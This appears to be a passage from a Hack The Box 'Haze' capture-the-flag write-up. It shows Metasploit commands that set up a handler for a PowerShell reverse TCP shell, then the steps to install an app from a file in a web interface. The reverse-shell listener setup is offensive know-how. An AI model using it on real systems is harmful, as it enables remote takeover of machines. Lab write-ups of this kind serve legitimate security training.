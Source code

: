 Setup your msfconsole to caught powershell session

```bash
msfconsole
```

```bash
use exploit/multi/handler
set payload windows/powershell_reverse_tcp
set LHOST 10.10.1xx.xxx
set LPORT 2004
set ExitOnSession false
exploit -j
```

`Apps` →`Manage Apps`

![Screenshot 2025-03-31 at 11.38.56 PM.png](/assets/Images/HTB_Haze/Screenshot_2025-03-31_at_11.38.56_PM.png)

`Install app from file`

![Screenshot 2025-03-31 at 11.39.29 PM.png](/assets/Images/HTB_Haze/Screenshot_2025-03-31_at_11.39.29_PM.png)
